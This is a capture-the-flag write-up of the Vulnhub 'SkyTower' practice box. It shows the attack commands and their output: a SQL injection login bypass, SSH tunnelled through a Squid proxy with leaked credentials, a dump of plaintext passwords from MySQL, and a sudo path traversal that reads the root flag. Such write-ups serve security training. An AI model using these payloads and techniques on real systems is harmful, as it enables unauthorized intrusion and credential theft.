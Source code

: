 # Write-up SkyTower (OSCP Like box)

- Box Name : SkyTower
- Difficulty : quite easy
- Time to root : 30 minutes

## Introduction

  While waiting for the start of my OSCP journey, I use to train a lot on HTB and Vulnhub Boxes. Today my internet connection was very poor , so I manage to find a way by downloading Skytower form Vulnhub (This box was recommanded for OSCP training)
  
  
## Enumaration

  ### Port scanning
  
  As usual, i'm starting by doing a TCP scan, with common script and service enumaration :
  
  ```
root@kali ~/v/skytower# nmap -sC -sV 172.20.10.4
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 08:16 EST
Nmap scan report for 172.20.10.4
Host is up (0.00028s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
_http-server-header: Apache/2.2.22 (Debian)
_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
 http-open-proxy: Potentially OPEN proxy.
_Methods supported: GET HEAD
_http-server-header: squid/3.1.20
_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.72 seconds
```

For conclusion, we have a webserver running on port 80, Squid Proxy on 3128, and SSH is filtered...

  ### Port 80
  
  All we have is a simple html login page, running gobuster doesn't reveal much more ...
  No cookie, or strange http headers value, we will come back on this service during exploitation phase.
  
  ### Port 3128
  
  Simple squid, this version doest not seems to be vulnerable to any known vulnerabilites, we need a password to use this service, we are unable to use it now.
  
  ## Exploitation
  
  The first thing to try on this simple login form is SQL injection, we can try do do some login bypass techniques :
  ```admin' OR 1=1--```
  Which return this :
  ```There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11' and password=''' at line 1]```
  
  This is quite good for the following of the pentest, we can now use our SQLi-Fu art to by-pass this login, and the final payload is :
  ```admin' || 1=1#```
  
  Wich give us access to the next page.
  
  The next page is quite useless except a username and a password for john !
  ```
  Username: john
Password: hereisjohn
```

We can now try this on ssh :

```ssh john@172.20.10.4```
But this doesn't work because the port is filtered. Maybe we can bypass this filter by using our creds on Squid Proxy:

```proxytunnel -v -p 172.20.10.4:3128 -P john:hereisjohn -d 127.0.0.1:22 -a 4444```

It works !
We can now try to login on the box with ssh :

```ssh john@127.0.0.1 -p 4444
The authenticity of host '[127.0.0.1]:1234 ([127.0.0.1]:1234)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[127.0.0.1]:1234' (ECDSA) to the list of known hosts.
john@127.0.0.1's password:hereisjohn
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014

Funds have been withdrawn
Connection to 127.0.0.1 closed.
root@kali:~#
```

Aaaaand ... we are reject from the server.
To bypass this we can simply force the serveur to execute /bin/bash and no .bashrc, then delete bashrc with our shell and then login again.

```
root@kali ~/v/skytower# ssh john@127.0.0.1 -p 4444 
john@127.0.0.1's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Feb  6 07:59:17 2019 from localhost
john@SkyTower:~$ 

```

And we are in !

## Privelege escalation

### John

We are now connected as John and our goal is to get root shell (or the proof at /root/flag.txt). I decide to enumarate using LinEnum.sh. For keeping this write-up easy to read , I won't post the result here. By the way only one line was interesting :

```Mysql Default cred (root/root) working```

Awesome, we can login to mysql database using root acount. So here we go :

```
mysql> SELECT * FROM login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

```
"login" was the only table in "Skytech" database, it contains all posix user password. Can't find much more with our friend john, i'll now move to sara.

### Sara

Sara had the same issue with .bashrc, so same trick to bypass :
- Login using /bin/bash
- Remove .bashrc
- Login again normaly

And now... Let's enumerate again ! We can run sudo -l to check if sara is a sudoer.

```
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$ 
```
Nice , sara can use "cat" as root in ```/accouts/*.```
So we can try to read /accounts/../root/flag.txt ... no ?
Let's try this :
```
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
This works pretty great ! We can now su root using this password :

```
sara@SkyTower:~$ su root
Password: 
root@SkyTower:/home/sara# whoami
root
```

That's all folks !

